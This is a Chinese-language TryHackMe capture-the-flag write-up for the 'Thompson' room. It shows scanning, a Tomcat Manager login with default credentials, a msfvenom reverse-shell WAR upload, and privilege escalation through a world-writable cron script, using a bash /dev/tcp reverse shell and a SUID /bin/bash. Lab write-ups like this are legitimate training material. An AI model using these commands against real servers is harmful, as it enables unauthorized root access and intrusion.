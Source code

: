 ## 概述
來源: tryhackme
題目: Thompson 
難度: easy
網址: https://tryhackme.com/room/bsidesgtthompson

## 掃描port
```!=
nmap -sC -sV. -v {target_ip}
```
```!=
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### 掃描可用路徑
```!=
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.201.43.69:8080/ -w /usr/share/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.43.69:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

## 登入tomcat manager
發現`8080`port是tomcat
且`/manager`登入失敗後跳出帳號密碼資訊
```
http://target_id:8080/manager/
```
![image](https://hackmd.io/_uploads/H10hDImRel.png)
透過`tomcat:s3cret`
登入成功


## .war取得shell

發現可上傳`.war`檔案
嘗試取得shell
![image](https://hackmd.io/_uploads/HJYMu8QCex.png)
先製作`shell.war`
```!=
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=local_ip LPORT=666 -f war -o shell.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
Saved as: shell.war
```
將`shell.war`上傳後
![image](https://hackmd.io/_uploads/ByuCOL7Ael.png)

監聽666
```!=
nc -nvlp 666
```

造訪頁面
```!=
http://10.201.68.84:8080/shell/
```
shell get
```!=
└─$ nc -nvlp 666
listening on [any] 666 ...
connect to [10.8.68.234] from (UNKNOWN) [10.201.68.84] 36576
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

### 取得user.txt
穩定shell
```!=
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ubuntu:/$ 
```
```!=
tomcat@ubuntu:/home/jack$ cat user.txt
cat user.txt
39...bf
```

## 提權1

發現`id.sh`好像能執行root權限
```!=
tomcat@ubuntu:/home/jack$ ls -l
ls -l
total 12
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Oct 19 23:41 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

而且我們也可以修改`id.sh`
嘗試取得root shell
```!=
echo 'bash -i >& /dev/tcp/local_ip/6666 0>&1' > id.sh
```
監聽6666
```!=
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 6666
listening on [any] 6666 ...
```
等待1~5分鐘系統自動觸發`id.sh`
取得root shell
```!=
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 6666
listening on [any] 6666 ...
id
connect to [10.8.68.234] from (UNKNOWN) [10.201.68.84] 35730
bash: cannot set terminal process group (919): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
```
取得`root.txt`
```!=
root@ubuntu:/home/jack# cd ~
cd ~
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
d8...3a
```

## 提權2
確認`/bin/bash`權限
```!=
tomcat@ubuntu:/home/jack$ ls -l /bin/bash
ls -l /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```
發現檔案擁有者是root
利用`id.sh`修改`/bin/bash`權限
新增`suid`權限以取得root權限
```!=
tomcat@ubuntu:/home/jack$ echo 'chmod +s /bin/bash' > id.sh
echo 'chmod +s /bin/bash' > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
chmod +s /bin/bash
```
等待系統自動執行`id.sh`
確定`/bin/bash`權限有`s`
```!=
tomcat@ubuntu:/home/jack$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```
使用root執行bash
```!=
tomcat@ubuntu:/home/jack$ /bin/bash -p
/bin/bash -p
bash-4.3# id
id
uid=1001(tomcat) gid=1001(tomcat) euid=0(root) egid=0(root) groups=0(root),1001(tomcat)
```

> `/bin/bash -p`  
> -p = privileged mode（特權模式）
> 
> 不加 -p：bash 會自動降低權限（安全機制）
> 加 -p：bash 保留 SUID 權限，讓你真的以 root 執行


取得`root.txt`
```!=
bash-4.3# cd /root 
cd /root
bash-4.3# cat root.txt
cat root.txt
d8...3a
```

補充一下
如果沒有`s`權限`-p`沒功用
```!=
tomcat@ubuntu:/$ ls -l /bin/bash  
ls -l /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
tomcat@ubuntu:/$ /bin/bash -p
/bin/bash -p
tomcat@ubuntu:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ubuntu:/$ 
```

## 不提權直接拿root.txt
嘗試直接把`root.txt`複製出來
```!=
tomcat@ubuntu:/home/jack$ echo "cp /root/root.txt /home/jack/root.txt" > id.sh
```
等待系統執行`id.sh`
成功取得`root.txt`
```!=
tomcat@ubuntu:/home/jack$ ls
ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ ls
ls
id.sh  root.txt  test.txt  user.txt
tomcat@ubuntu:/home/jack$ cat root.txt
cat root.txt
d8...3a
```